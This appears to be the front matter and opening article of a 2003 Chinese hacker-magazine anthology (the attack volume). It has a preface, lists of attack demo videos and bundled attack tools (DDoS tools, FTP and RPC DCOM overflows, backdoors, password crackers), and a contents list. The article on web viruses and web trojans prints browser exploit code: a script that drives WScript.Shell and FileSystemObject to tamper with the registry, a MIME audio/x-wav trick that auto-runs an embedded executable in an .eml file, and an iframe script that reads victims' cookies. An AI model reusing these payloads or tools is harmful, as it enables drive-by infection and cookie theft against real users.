# 黑客防线2004精华本（上）

---

## 黑客防线

## 2004

### 精华奉献本 (攻册)

《黑客防线》编辑部 编

150个全程攻防录像演示
助您成为高手

150个黑客高手倾情力作
各有千秋

200篇精心挑选的精彩文
章使您爱不释手

200种攻击防范案例分析
使您一饱眼福

人民邮电出版社
POSTS & TELECOM PRESS

## 黑客防线

## 2004

### 精华奉献本（攻防）

《黑客防线》编辑部 编

人民邮电出版社

图书在版编目 (CIP) 数据

《黑客防线》2004精华奉献本 / 《黑客防线》编辑部编.
—北京：人民邮电出版社，2003.11
ISBN 7-115-11937-6

Ⅰ.黑… Ⅱ.黑… Ⅲ.计算机网络—安全技术
Ⅳ.TP393.08

中国版本图书馆 CIP 数据核字 (2003) 第 101810 号

## 内容提要

《黑客防线 2004 精华奉献本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第 25 期到总第 36 期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册 2 本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的 15 个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑客攻击防范 6 个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠 2 张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及 150 个全程攻防录像演示。

本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

## 黑客防线 2004 精华奉献本 (攻册)

编： 《黑客防线》编辑部
责任编辑：魏雪萍

出版发行：人民邮电出版社发行 北京市崇文区夕照寺街 14 号 A 座 (100061)
读者热线：(010) 62141445-8031
印 刷：中煤涿州制图印刷厂
经 销：全国各地新华书店

开 本：787 × 1092 1/16
印 张：36
字 数：2800 千字
2003 年 11 月第 1 版 2003 年 11 月北京第 1 次印刷

ISBN 7-115-11937-6/TP · 3764
全套定价：35.00 元 (附双光盘)

本书如有印刷质量问题 (错页、掉页、残页等)，请您与我们联系，我们负责掉换。
联系电话：(010) 62141445-8011 E-mail: yougoubu@hacker.com.cn
图文版权所有，未经同意不得转载、翻印。

## 致读者的话

由于中国文化对“黑”赋予了传统的贬义思维，“黑客 (Hacker)” 曾经在一定程度上成为网络犯罪的代名词。然而，黑客作为计算机网络空间一种十分复杂的社会存在，远不是一些人们的“黑色”思维所能包容得了的。它有着自身发生和发展的固有规律。我们有必要对这一社会现象进行深入的研究，并在此基础上引导人们客观地加以对待，从而促进网络社会的健康发展。其实每一名黑客手里都拿着双刃剑。一方面，他们造成网络瘫痪，数据丢失，给经济造成数以亿计、十亿计、百亿计甚至千亿计的巨大损失；另一方面，也可以说，没有“黑客”的“胆大妄为”，就没有网络防护技术的不断升级和突飞猛进，谁也不能否认他们对信息技术飞速发展所做出的具有特殊意义的贡献。可见，我们不能把黑客一棍子打死，而应根据不同的情况，区别对待。

《黑客防线》作为网络及计算机安全普及性电子媒体，致力于中国网络安全和计算机安全事业。杂志不仅仅介绍“黑客”攻防技术，还力图和广大读者朋友共同营造健康的中国黑客文化。在3年的杂志出版过程中，我们介绍了最新的安全资料，关注最新的安全攻防技术，努力让读者能够学习到最新最实用的黑客攻防技术，明白什么是真正的黑客，什么是黑客精神，什么是骇客 (Cracker)，他们和黑客的区别是什么。同时，《黑客防线》本身也在不停地进步发展，我们经过多次策划、改版，再策划、再改版，内容上最后精确定位在攻、防两册上，目的是想让每个读者都能分清攻和防的微妙关系，理解没有攻击就谈不上防御，没有防御的攻击没有任何意义，真正明白攻防一体的安全定律。

同时，经过3年多的时间，和我们一起成长起来的读者也不计其数。如今，当年相当多的读者现在已经小有成就，在一些领域内具有扎实的技术，也成了我们最好的作者群体，并一如既往地支持我们，关注我们。诚如一些读者所说，在“黑客”这个圈子内，《黑客防线》是最早关注网络安全，为读者导航护驾的媒体之一，在当时资源有限的情况下，为广大读者解答了大量的技术难题。广大读者十分关心和支持《黑客防线》，经常指出我们的不足，提出改进意见。可以说我们有今天的成绩，与这些关注我们的读者是分不开的。正是广大的读者朋友和广大的作者群体给我们的支持，给我们的信心，才使得我们的刊物越办越好，影响越来越大。

为了系统地介绍黑客攻防技术，我们决定出版精华本，本次精华本内容是近200个精英作者的优秀作品，并经过编辑人员再次编排、加工，挑选最受读者欢迎的栏目精心制作而成的。虽然内容以技术为主，但是我们相信读者一定明白“黑客技术”是一把双刃剑，在造就网络安全的同时，如果不能正确对待，最终将砍伤自己。所以请读者朋友一定加强法制观念，本着学技术、搞研究的态度，走向捍卫网络安全，提高网络防御的正道，而不要沦入破坏、入侵，从事网络犯罪，甘为“骇客”的邪道。

最后，我们再次感谢广大读者对我们的支持，感谢人民邮电出版社同我们的再次合作，使得更多的读者可以看到我们的图书，也希望广大读者有什么疑难问题来我们的论坛 (http://www.hacker.com.cn/newbbs/) 提出，我们在线编辑人员会在第一时间为您答疑，帮您解决故障，确保一份相对的安全。

## 黑客防线

## 攻防录像

- 利用 IIS 配置错误入侵服务器
- 利用 SqlExploit 进行攻击
- 利用 VB 来打造自己的反入侵系统
- 手工防范 3389 终端服务攻击
- 手工防范 idq 漏洞
- 防范 unicode 漏洞
- 修复注册表
- 黑客防攻实验室过关动画
- BayNetworks 远程控制操作
- 通过 Web 远程操作 3COM 交换机
- 利用 Web 远程控制路由器
- Hack 攻防录像
- xhacker 的 Webdav 攻击演示
- RPCLocator 的攻击演示
- 孤独剑客的 Webdav 攻击演示
- 制作完全的隐形帐户
- 经典的后门演示动画
- IIS 配置文件后门的安装
- 黑客游戏全攻略
- 建立隐藏的用户
- 测试你的电脑的安全性动画
- 动网论坛破解
- SMB 定向攻击
- 冰河的使用方法及一些常识
- 一个国产黑客工具的超级密码
- 使用系统本身的信使服务的演示
- 网络新手怎样安全的进行远程登录
- 怎样识破 QQ 永远在线动画教程
- 动网 logout.asp 利用动画教程和说明
- PRC 攻击演示动画及相关软件和说明
- 入侵路由器
- 突破防火墙进入主机
- 如何独自享用肉机
- 三分钟给肉鸡做主页
- IISprinter 溢出漏洞动画教程
- NET 命令的基本用法
- 一个很简单的 SnifferDownload
- 利用 IIS 配置错误入侵服务器
- 网络隐身方法
- 菜鸟简单防黑之限制端口
- 破解神算刘半仙动画教程
- 汉化模拟器动画教程
- 设置 Radmin 服务端的动画教程
- X-Way 破 FTP
- Leadbbs 的最新漏洞利用动画演示
- 简单脱掉 ASPack 的壳的动画教程
- 简单不死账号的制作动画教程
- 教会你如何使用 X-Scanner 扫描器的使用演示
- 关于 Arp 攻击的方法演示
- Windows NT/2000 下 IPC$ 默认共享利用
- Iptools 工具使用说明
- 把一台电脑做成 Sksockserver 代理服务器
- 俄罗斯黑客开发的扫描器的演示
- 国内知名女黑客 Wollf 写的后门
- Linux Wu-ftp 有远程溢出漏洞
- 虚拟入侵一台主机的方法过程
- 配置一个安全的 Windows 2000 系统
- 流光教学演示
- 通过 MYSQL 获取资料
- 如何防止 ICPM 数据包攻击
- 网络隐身方法
- 利用 IIS 配置错误入侵服务器
- 利用 SQLExploit 进行攻击
- 分析远程服务器的安全日志
- 更进一步使用多功能后门
- 面对一些常见攻击方法的检测
- 配置一个安全的防火墙保护你的系统
- 如何防范 ipc$ 空连接
- 如何防范一些黑客工具和病毒
- 如何给你的系统加密
- 如何关闭默认共享
- 如何判断一个主机的安全

## 2004 精华奉献本光盘目录

### 安全资料

- nsfocus 绿盟系列文章。
- port.txt 端口详解, 超级资料宝典。
- 2000.txt 2000命令集, 学习2000系统和安全的必修课。
- bug.txt 部分系统漏洞相关资料。
- crack4.zip 破解教程。
- daoguang.chm 小榕论坛2003年安全精华。
- fanruqin.rar 反入侵的资料。
- injectsql.rar SQL注入的全面技术资料。
- linux.exe Linux学习相关资料。
- nt&tcpip.chm 简单TCP/IP教程。
- php4.chm PHP学习资料。
- proxy.chm 代理相关知识。
- server-ufull.rar Server-u的全面基础教程。
- viewthread.chm 红色警戒安全教程。
- winxp.txt Windows XP下的NET命令详解。
- xfocus.chm 焦点安全文章精华。
- yingpai.rar 鹰派安全教程。
- bingdu.ppt 病毒原理分析。
- daili.chm 代理服务器知识大全。
- xieyi.txt 网络技术常用术语汉语对照。
- loudong.txt 最新Windows系统漏洞攻防实战。

### 攻击程序

- **网吧杀手(X Edition)**
  代码经过重写, 可以自动判断网络速度, 选择最佳的连接方法, 并且能避开防火墙, 在局域网内部可以避开防火墙进行攻击。
- **IP 炸弹 V2.1**
  有 3 种攻击方式, 用了不同的方法来写。
- **蓝雪攻击者 V1.01**
  功能齐全, 修改了不能在局域网之外运行的 BUG, 增加了威力系数, 自身带防御功能。
- **网站杀手**
  国产工具, 网站杀手, 使用简单, 只须把要攻击的 IP 添上就行了。
- **DDoS 攻击者 1.4**
  一个 DDoS 攻击工具, 程序运行后自动注入系统, 并在以后随系统启动, 在上网时自动对事先设定好的目标进行攻击。
- **0x82-wu262-advanced.rar**
  Wu-ftpd v2.6.2 溢出程序加强版, 把 FBSD, OBSD WU26*加进去了。
- **kaht2.zip**
  Rpc DCOM 批量溢出。
- **iis-media.rar**
  Windows Media 服务 nsiislog.dll 远程溢出程序。
- **T-SysCmd-1.0.rar**
  一款基于 IDT 的攻击程序, 也可以说是 Windows 系统下的内核级后门程序。
- **CANVAS3_VivianLi.rar**
  可以在任何平台运行, 用 python 写的一个攻击工具集合。
- **BBSXP-dzk.zip**
  新的 BBSXP 论坛漏洞利用工具, 漏洞利用原理请看压缩包里的说明。
- **sqldos.rar**
  微软 SQL Server 拒绝服务漏洞攻击程序。
- **LB 论坛 search.cgi 漏洞利用程序**
  LB 论坛 search.cgi 漏洞利用程序, 已经编译好。
- **动网 logout.asp 利用程序**
  动网 logout.asp 利用程序, 已经编译好。

## 2004 精华奉献本光盘目录

### 远程控制

### 常用工具

后门程序 Devil3
这个程序使用了线程插入技术，可以把后门程序以 dll 文件的形式插入到系统关键进程当中，使后门更具隐蔽性。

Windows 2000 Service Pack 4 简体中文版
Windows 2000 升级维护包，主要提供了 SP2 以后微软发布的所有系统升级与补丁，并修正了 500 多个 BUG。

rmtSvc233.rar
remoteCtrol2.3.3 国内第一款 B/S 方式的远程控制工具。

Net Transport
一个快速稳定功能强大的下载工具。

aspdoor.zip
ASP 后门生成工具。

BitTorrent
一个多点下载的源码公开的 P2P 软件。

图形界面的 NC
一个类似于原 NC 的软件，是窗口介面的，只需要输入一些如 IP、端口等信息，然后再按一下相应的按钮就可以了。

Windows 优化大师
具有从桌面到网络，从注册表清理到垃圾文件扫除，从黑客搜索到系统检测等比较全面的解决方案。

### 防火墙程序

rexec_client.rar
Windows 下通过 512 端口控制 Linux 机器。

Kerio Personal Firewall
一个免费的专业防火墙，Kerio 采用了专业的防黑技术，可以确保你的计算机不被任何黑客侵扰。

### 扫描工具

spywareblastersetup.exe
一个反间谍工具的软件，它可以关闭流行的间谍软件的 ActiveX 控件，从而实现反间谍软件。

SuperScan3.0 中文版
基于面向连接式协议的 TCP 端口扫描器。

Scanmsgr
命令行的 MS03-043 漏洞扫描器。

WinPatrol
网络安全工具，可以探测出蠕虫、间谍程序、木马等恶意的程序。

ShadowScan
一款速度快但体积很小的端口扫描工具。

反黑客木马专家
能智能检测和清除超过 12000 多种黑客程序和木马程序。

nmap3.45win32
允许系统管理员查看一个大的网络系统有哪些主机以及其上运行何种服务。

### 查毒杀毒

### 加密解密

冲击波(Worm.Msblast)安全更新程序
微软推出的有关冲击波(Worm.Msblast)病毒的安全补丁程序。

uedit90.zip
专业的文本处理程序，功能一应俱全。

Protector Plus
防病毒软件，可以自动的或人工的扫描并检查全部病毒，而且能全部删除。

CloneCDen2104.zip
可完整复制加密保护光盘的工具

Uzc63setup.rar
目前最快的 ZIP 文件密码破解软件。

SPYCOP
能扫描电脑中隐藏起来的病毒，比如特洛伊木马这种病毒。

MD5jihe.zip
MD5 密码破解工具集合。

## 黑客防线 2004 精华奉献本
## (攻册) 目录

### ※ 最新奉献

- 网页病毒、网页木马深度剖析以及手工清除 ............................................... 1

### ※ 特别专题

- IE 黑客常见攻击方法揭秘 ................................................................ 14
- 后门程序的隐藏 ........................................................................ 19
- 代理服务器总汇与肉鸡制作实例 .......................................................... 25
- 给动态肉鸡加固定地址——花生壳后门实战 ................................................ 32
- 在 DCOM RPC 漏洞中前进 ................................................................ 37
- 透视 RPC DCOM 第三个接口漏洞 .......................................................... 43
- 病毒 VS 蠕虫谁更上层楼 ................................................................ 50

### ※ 漏洞攻击

- 利用 WEBDAV 漏洞结合终端服务入侵远程主机 .............................................. 56
- 自做 Honeypot 实现 Webdav 漏洞安全入侵及配置 .......................................... 59
- “黑客”与系统管理员的较量 ............................................................ 61
- 利用 IIS 缺陷配置 ASP 后门 ............................................................. 68
- 绕过 SyGate Pro 个人防火墙的攻击 ....................................................... 70
- 杀毒软件能耐我何——利用 NTFS 数据流制作木马后门 ........................................ 73
- 利用 rpc 轻松攻击 Linux 主机 ........................................................... 76
- 无坚不摧的杀手锏——利用 Windows 帮助文件漏洞运行木马 .................................... 79
- 警惕!来自客户端的威胁—IE Object Data 远程运行恶意代码漏洞 ............................. 80
- 免费才是我们的最爱—从免费电影下载到免费发送短信 ........................................ 81
- Discuz 论坛短消息未限制发送次数缺陷 .................................................... 84
- 为什么被忽视的总是我——浅谈 Web 攻击 .................................................... 85
- 在肉鸡上构建一个完美的虚拟主机 .......................................................... 89

- 分析从 FTP 发动的攻击 ................................................................ 92

### 脚本攻击
- SQL Injection 攻击技术 ................................................................ 96
- 常见 ASP 程序漏洞——逻辑错误篇 ..................................................... 104
- 利用 ASP 口令验证漏洞突破网页验证限制 ............................................ 108
- 针对 PHPBB2.0.0 论坛漏洞的测试 ....................................................... 111
- 一次简单 post 攻击的例子 .......................................................... 114
- LB5K 论坛多个管理文件存在管理员验证可绕开漏洞 ........................................ 115
- LB5K 论坛 search.cgi 文件漏洞再现 .................................................... 118
- WDB 及其各个美化、改良版均存在严重漏洞 .............................................. 120
- YUZI BBS3000 论坛安全性分析 ........................................................ 123
- 进入攻防实验室的又一捷径——妙用 BBS3000 另一重大安全隐患 .............................. 125
- 4 个有问题的 LB 文件 ................................................................ 128
- Discuz! 论坛安全分析 ................................................................ 131
- 动网论坛 6.0 版 + SP2 的严重漏洞攻击篇 ............................................... 134
- 动网论坛漏洞归来 ................................................................... 136
- 免费体验 Chinaren 校友录的多彩留言 ................................................... 138
- ReleaseEasy 2 想说安全不容易 ....................................................... 139
- 利用漏洞轻松攻击约稿奇兵 ........................................................... 141
- 从填空游戏到最高权限——几乎完美的注入攻击实例 ........................................ 143

### 黑兵器库
- 倚天不出谁与争锋——NetXRay 简介与应用 ................................................. 148
- 3 款值得推荐的扫描器 ................................................................. 152
- ETTERCAP——交换环境下的嗅探器 ...................................................... 154
- Linux 下的 CGI 漏洞扫描兄弟：Whisker 与 Malice ....................................... 158
- 广外女生变男生 ——木马“广外女生”使用和分析 .......................................... 162
- BITS 难以觉察的后门 .................................................................. 165
- IP 代理自己找 ....................................................................... 168
- 用 Ssso 批量制作代理服务器 .......................................................... 170
- 如何找出管理员的密码 ................................................................. 172
- 字典工具也疯狂 ....................................................................... 174
- 无共享主机的长期控制方法——上传下载、突破防火墙与后门架设 ............................. 177
- 拨号也来玩嗅探——CommView 的使用 .................................................... 180

### 编程解析
- Arp Sniffer 与 ARP 欺骗 ................................. 182
- 基于 T-SysCmd-1.0 的权限提升使用实例 ................................. 184
- 灰鸽子 2003 试用手记 ................................. 185
- 编写自己的 QQ 代理服务器 ................................. 187
- VB 做个自己的 NC ................................. 191
- 打造自己的文件动态监控器 ................................. 194
- 送自己一对电子眼——计算机扫描技术编程解析 ................................. 196
- Perl 编写密码破解工具 DIY ................................. 199
- 写个简单的 Telnet 后门软件 ................................. 201
- 用 C 实现克隆账号 ................................. 205
- 如何实现根据用户配置生成木马服务器端 ................................. 208
- 打造自己的键盘记录软件 ................................. 210
- 用 C# 打造一个文件系统监视器 ................................. 213
- 编写一个能种植后门的程序 ................................. 215
- 利用 UDP 编写远程控制程序 ................................. 217
- 查看本机连接的方法 ................................. 219
- 挑战 VB “不可能完成的任务” —— VB 编写 Flooder ................................. 221
- XP 内核 DIY ................................. 222

### 密界寻踪
- 探索 OllyDbg 的 “十全武功” ................................. 226
- TRW2000 得心应手密技五则 ................................. 229
- DEBUG 你知多少? ................................. 231
- 使用 DEBUG 来实现 CRACK ................................. 233
- 用 WKTVBdebugger 来注册 P-Code 保护的程序 ................................. 236
- 妙用 Regshot 破解软件使用次数限制 ................................. 239
- Netscan Pro 3.3 注册算法分析全过程 ................................. 241
- 一分钟得到木马终结者的注册码 ................................. 244
- 撰稿人宝典破解 ................................. 245
- 揪出隐藏在 IE 天使中的万能注册码 ................................. 248
- 一款 PDF 转换工具的破解 ................................. 250
- 免费玩网游其实很容易 —— Crack 技术在网络游戏中的应用 ................................. 252
- 以神经网络为基础的一种数据序列加密方法 .................................... 255

#### 网吧攻略
- 只为自由故 方想破网吧——突破网吧限制全攻略 .................................... 258
- 网吧禁止下载文件终极突围 6 大法 ........................................ 264
- 突破禁止下载的另几招 .................................................... 266
- 网吧电脑使用权限的巧妙拓展 ................................................ 268
- 网吧中十二种常见限制的解决办法 ............................................ 270
- 网吧管理软件安全漏洞攻防 .................................................. 274
- 忘记还原精灵密码后的 6 种解决方法 .......................................... 278

#### 经验交流
- 手工删除 DLL 类型的特殊后门程序 ........... regsvr32 /u *.dll ................ 280
- Ping 攻防心经 ........................................................... 281
- 恢复 XP 管理员密码 5 奇招 ................................................ 284
- 由浅入深解析克隆账户 .................................................... 285
- 警惕“关联陷阱” .......................................................... 290
- 小心你的启动项 .......................................................... 292
- 如何绕过登录密码进入 Windows 98 系统 .................................... 294
- 网络新手 IP 地址随心变 .................................................. 296
- 如何榨取肉鸡的剩余价值 .................................................. 298
- 收费音乐随意听 .......................................................... 299
- 永久的后门——替换系统服务的实现 .......................................... 301
- 如何有效地启动远程主机终端服务 .......................................... 303
- 打造 XP 下的 PHP+MySQL 论坛 .............................................. 305
- 打造自己的网页木马 ...................................................... 307
- 如何在 Linux 下建立一个拨入系统 .......................................... 309

在杀毒软件风靡全球的今天，各式各样的病毒仍然在网络上横行，其形式的多样化，自身之隐蔽性都大大的提高。其中，网页病毒和网页木马就是这个新型病毒大军中危害面最广泛，传播效果最佳的。之所以会出此篇，也是在考虑到太多的人都在网页病毒中“应声倒下”，却不知自己是如何中毒，以及中毒后如何去处理。就此问题，我们开始以下对网页病毒和网页木马这一“新概念”做个详细的剖析。

## 网页病毒和网页木马深度剖析以及手工清除
文 / 风清扬

### 一、恶意网页的基本常识

#### （一）什么是网页病毒
网页病毒是利用网页来进行破坏的病毒，它存在于网页之中，其实是使用一些 script 语言编写的一些恶意代码利用 IE 的漏洞来实现病毒植入。当用户登录某些含有网页病毒的网站时，网页病毒便被悄悄激活，这些病毒一旦激活，可以利用系统的一些资源进行破坏。轻则修改用户的注册表，使用户的首页和浏览器标题改变，重则可以关闭系统的很多功能，例如装上木马，染上病毒，使用户无法正常使用计算机系统，严重者则可以将用户的系统进行格式化。而这种网页病毒容易编写和修改，用户防不胜防。

目前的网页病毒都是利用 JavaScript、ActiveX、WSH 共同“合作”来实现对客户端计算机进行本地的写操作，如改写注册表，在本地计算机硬盘上添加、删除、更改文件夹或文件等操作。而这一功能却恰恰使网页病毒和网页木马有了可乘之机。

在分析网页病毒前，先介绍促使病毒形成的罪魁祸首: Windows 脚本宿主 和 Microsoft Internet Explorer 漏洞。

#### （二）Windows 脚本宿主、Internet Explorer 漏洞以及相关
WSH，是“Windows Scripting Host”的缩略形式，其通用的中文译名为“Windows 脚本宿主”。对于这个较为抽象的名词，我们可以先作这样一个笼统的理解：它是内嵌于 Windows 操作系统中的脚本语言工作环境。

Windows Scripting Host 这个概念最早出现于 Windows 98 操作系统。大家一定还记得 MS-DOS 下的批处理命令，它曾有效地简化了我们的工作，带给我们方便，这一点就有点类似于如今大行其道的脚本语言。但就算我们把批处理命令看成是一种脚本语言，那它也是 Windows 98 版之前的 Windows 操作系统所惟一支持的“脚本语言”。而此后随着各种真正的脚本语言不断出现，批处理命令显然就很是力不从心了。面临这一危机，微软公司在研发 Windows 98 时，为了实现多类脚本文件在 Windows 界面或 DOS 命令行提示符下的直接运行，就在系统内植入了一个基于 32 位 Windows 平台并独立于语言的脚本运行环境，并将其命名为“Windows Scripting Host”。WSH 架构于 ActiveX 之上，通过充当 ActiveX 的脚本引擎控制器，WSH 为 Windows 用户充分利用威力强大的脚本指令语言扫清了障碍。

WSH 也有它的不足之处，任何事物都有两面性，WSH 也不例外。应该说，WSH 的优点在于它使我们可以充分利用脚本来实现计算机工作的自动化；但不可否认，也正是它的这一特点，使我们的系统又有了新的安全隐患。许多计算机病毒制造者正在热衷于用脚本语言来编制病毒，并利用 WSH 的支持功能，让这些隐藏着病毒的脚本在网络中广为传播。借助 WSH 的这一缺陷，通过 JavaScript、VBScript、Activex 等网页脚本语言，就形成了现在的“网页危机”。

促使这一问题发生的还有 Internet Explorer 的自身漏洞。比如：“错误的 MIME Multipurpose Internet Mail Extensions，多用途的网际邮件扩充协议头”，“Microsoft Internet Explorer 浏览器弹出窗口 Object 类型验证漏洞”。而以下介绍的几个组件存在的问题或漏洞或是在安全问题上的过滤不严密问题，却又造成了“网页危机”的另外一个重要因素。

- Java 语言可以编写两种类型的程序：应用程序 (Application) 和小应用程序 (Applet)。应用程序是可以独立运行的程序，而 Applet 不能独立运行，需要嵌入 HTML 文件，遵循一套约定，在支持 Java 的浏览器 (如：Netscape Navigator 2.02 版本以上，HotJava, Microsoft Internet Explorer 3.0 版本以上) 运行，是 Java 一个重要的应用分支，也是当时 Java 最令人感兴趣的地方 (它一改网页呆板的界面)，就是在 WWW 网页 (Home Page / Pages) 设计中加入动画、影像和音乐等，而要达到这些效果使用最多的是 Java Applet 和 Java Script (这是一种 Java 的命令语言)。
- JavaScript 是一种基于对象 (Object) 和事件驱动 (Event Driven) 并具有安全性能的脚本语言。使用它的目的是与 HTML 超文本标记语言、与 Web 客户交互作用，从而可以开发客户端的应用程序等。它是通过嵌入或文件引用在标准的 HTML 语言中实现的。它的出现弥补了 HTML 语言的缺陷，它是 Java 与 HTML 折衷的选择，具有基于对象、简单、安全和动态和跨平台性等特性。
- ActiveX 是 Microsoft 公司提出的一组使用 COM (Component Object Model，部件对象模型) 使得软件部件在网络环境中进行交互的技术。它与具体的编程语言无关。作为针对 Internet 应用开发的技术，ActiveX 被广泛应用于 Web 服务器以及客户端的各个方面。同时，ActiveX 技术也被用于方便地创建普通的桌面应用程序。在 Applet 中可以使用 ActiveX 技术；如直接嵌入 ActiveX 控制，或者以 ActiveX 技术为桥梁，将其他开发商提供的多种语言的程序对象集成到 Java 中。与 Java 的字节码技术相比，ActiveX 提供了“代码签名” (Code Signing) 技术保证其安全性。

#### （三）网页病毒的攻击方式
既然是网页病毒，那么简单地说，它就是一个网页，甚至于制作者会使这个特殊网页与其他一般的网页别无他样。但在这个网页运行到本地时，它所执行的操作就不仅仅是下载后再读出，伴随着前者的操作背后，还有这病毒原体软件的下载，或是木马的下载，然后执行，悄悄地修改你的注册表……那么，这类网页都有什么特征呢？

- 1. 美丽的网页名称，以及利用浏览者的无知
不得不承认，很多恶意网页或是站点的制作者，他们对浏览者的心理分析是下功夫的，对域名的选择和利用绝对是很到位的。很多上网的男性网民大都对 MM 照片感兴趣，这就是他们利用的一个渠道。如你看到了一个域名：www.lovemm.com，或是 http://plmm.yeah.net 等，你会动心去看么。如果不会，再看这个域名：http://e3i5.yeah.net/images/mm/plmm001.gif 这个地址你会去看么？很显然，乍一看，图片！一张可能是 MM 的图片，懂

## 点安全知识的人来说，放心，它不可能是BMP图片木马，你用这个地址打开一定是张.GIF 格式的图片。好，你可以去尝试一下。再看另外一个域名，很显然是经过构造的。http://www.sina.com.cn@e3i5.yeah.net/images/mm/plmm001.gif 你还能“火眼金睛”吗？不知道结果是什么，那你就放心地点击它试试。

##### 2. 利用浏览者的好奇心

在这里我要说一句话，这样的人中毒也是自找。对什么都要好奇可不是个好习惯。有些东西不是你想看就可以去看的。[作者注]有这个习惯的都改改，^_^!

##### 3. 无意识的浏览者

这类人，对他们的遭遇，我们表示同情。

在我们基本了解了网页病毒和网页木马的运行机体环境后，让我们开始重点分析一下网页病毒是如何对计算机进行攻击，染毒，并自我保护的。

### 二、网页病毒、网页木马机理深度剖析

### (一) 网页病毒和网页木马的制作方式

##### 1. Javascript.Exception.Exploit

利用JS+WSH的完美结合，来制作恶意网页的方法几乎是所有恶意站点必有的“功能”。

#### 2. 错误的MIME Multipurpose Internet Mail Extentions (多用途的网际邮件扩充协议头)

几乎是现在网页木马流行利用的基本趋势，这个漏洞在IE5.0到IE6.0版本中都有，对这么一个全能的漏洞，大家怎能不重视？

#### 3. .EXE to .BMP + Javascritp.Exception.Exploit

具体的.EXE转化到.BMP的文章我想大家都见到过，而且不只一次。应用方法很简单：诱骗浏览者上当。

##### 4. iframe 漏洞的利用

当微软的IE窗口打开另一个窗口时，如果子窗口是另一个域或安全区的话，安全检查应当阻止父窗口访问子窗口。但事实并非如此，父窗口可以访问子窗口文档的frame，这可能导致父窗口无论是域或安全区都能在子窗口中设置 Frame 或 IFrame 的URL。这会带来严重的安全问题，通过设置 URL 指向 Javascript 协议，父窗口能在子域环境下运行脚本代码，包括任意的恶意代码。攻击者也能在“我的电脑”区域中运行脚本代码。这更会造成严重的后果。

#### 5. 通过安全认证的 CAB, COX

此类方法就是在.CAB文件上做手脚，使证书. SPC 和密钥.PVK 合法。

原理: IE读文件时会有文件读不出，就会去“升级”这样它会在网页中指定的位置找 .cab 并在系统里写入个人 CID 读入 .cab 里的文件。

方法: .cab 是 Windows 里的压缩文件，我们知道IE里所用的安全文件是用签名的CAB也不例外，所做的CAB是经过安全使用证书引入的。也就是说IE认证攻击，之所以每次都能入侵电脑，是因为它通过的是IE认证下的安全攻击，这样不管我怎么做都没办法。

##### 6. EXE 文件的捆绑

现在的网页木马捆绑机开始泛滥了，多得数不胜数。再将生成的 MHT 文件进行加密，好，这样一来，连我们最信任的杀毒软件也无效了。

### (二) 网页病毒和网页木马的运行机理分析

##### 1. Javascript.Exception.Exploit

```
精华语句: <APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>
Function destroy(){
try
{
//ActiveX initialization 初始化 ActiveX, 为修改注册表做准备
a1=document.applets[0];
// 获取 applet 运行对象, 以下语句指向注册表中有关 IE 的表项
a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance();
Shl = a1.GetObject();
a1.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");
a1.createInstance();
FSO = a1.GetObject();
a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance();
Net = a1.GetObject();
try
{
开始做坏事
}
}
catch(e)
{}
}
catch(e)
{}
}
function do()
{
// 初始化函数, 并每隔一秒执行修改程序
setTimeout("destroy()", 1000); // 设定运行时间 1 秒
}
Do() // 坏事执行函数指令
```

```
text
Content-Type: multipart/related;
type="multipart/alternative";
boundary="====B===="
-----====B====
Content-Type: multipart/alternative;
boundary="====A===="
-----====A====
Content-Type: text/html;
Content-Transfer-Encoding: quoted-printable
<iframe src=3Dcid:Mud height=3D0 width=3D0>
</iframe>
-----====A====--
-----====B====
Content-Type: audio/x-wav;
name="run.exe"
Content-Transfer-Encoding: base64
Content-ID: <Mud> --- 以下省略 AAAAA
N+1个----
```

把 run.exe 的类型定义为 audio/x-wav, 这下清楚了, 这是利用客户端支持的 MIME(多部分网际邮件扩展, Multipart Internet Mail Extension)类型的漏洞来完成的。当申明邮件的类型为 audio/x-wav 时, IE 存在的一个漏洞会将附件认为是以音频文件自动尝试打开, 结果导致邮件文件 x.eml 中的附件 run.exe 被执行。在 Windows 2000 上, 即使是用鼠标点击下载下来的 x.eml, 或是拷贝粘贴, 都会导致 x.eml 中的附件被运行。整个程序的运行还是依靠 x.eml 这个文件来支持。Content-Transfer-Encoding: base64 Content-ID: <Mud> 从这我们可以看出, 由于定义后字符格式为 base64, 那么以下的代码全部为加密过的代码, 里面可以是任何执行的命令:

全部是 JS 编写, 没有什么高深的技术, 但它却可以把你的计算机注册表改得“乱七八糟”, 在你的计算机里留下各式各样的垃圾, 甚至于连声招呼都不打就格了你的硬盘。所列出的整段函数看起来简单明了, 声明函数, 初始化环境, 取得注册对象, 执行读、写、删权限, 定义操作时间(快得连反映都没有)。

#### 2. 错误的MIME Multipurpose Internet Mail Extentions（多用途的网际邮件扩充协议头）

> 精华语句：<! -- - x.eml - - >

```
vbs
<script language=vbs>
On Error Resume Next 容错语句, 避免程序崩溃
set aa=CreateObject ("WScript.Shell") 建立 WScript 对象
Set fs = CreateObject ("Scripting.FileSystemObject") 建立文件系统对象
Set dir1 = fs.GetSpecialFolder (0) 得到 Windows 路径
Set dir2 = fs.GetSpecialFolder (1) 得到 System 路径
......省略......</script>
```

下面代码该做什么各位都该清楚吧。这就是为什么很多人中毒后不能准确地清除全部的病毒体的原因，也是很多杀毒软件的一个通病。病毒监控只杀当时查到的，新建的却置之不理。

##### 3. iframe 漏洞的利用

##### (1) iframe 漏洞的利用一

```
javascript
<script language="jscript">
    onload=function () {
    var
      oVictim=open("http://url.url.com/url?threadin=vir","OurVictim","width=100,height=100");
    setTimeout(
    function () {
      oVictim.frames[0].location.href="javascript:alert(document.cookie)";
    }, 
    7000
    );
    }
</script>
```

多方便的办法，浏览者的 COOKIES 就这样轻松地被取走。

##### (2) iframe 漏洞的利用二

```
`<iframe src=run.eml width=0 height=0></iframe>`
```

